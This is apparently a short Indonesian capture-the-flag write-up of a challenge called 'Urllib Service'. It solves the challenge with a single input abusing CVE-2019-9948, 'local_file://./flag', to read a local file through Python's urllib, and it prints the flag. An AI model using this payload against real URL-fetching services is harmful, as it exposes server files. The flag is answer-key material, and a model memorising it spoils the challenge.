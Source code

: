 # Urllib Service (50 Points)
Hai.. admin membuat sebuah service untuk mengecheck apakah website tersebut up atau down loh menggunakan bahasa pemrograman Python dan modules urllib.
<br>
Tapi... sepertinya urllib memiliki celah CVE
<br>
<code>nc ctf.serangkota.go.id 9970</code>
# Solved
Note : https://www.cvedetails.com/cve/CVE-2019-9948/
```
$ nc ctf.serangkota.go.id 9970
Input Your Url Website: local_file://./flag
```
Flag : <b>DiskoCTF{CVE-2019–9948_file_scheme}</b>
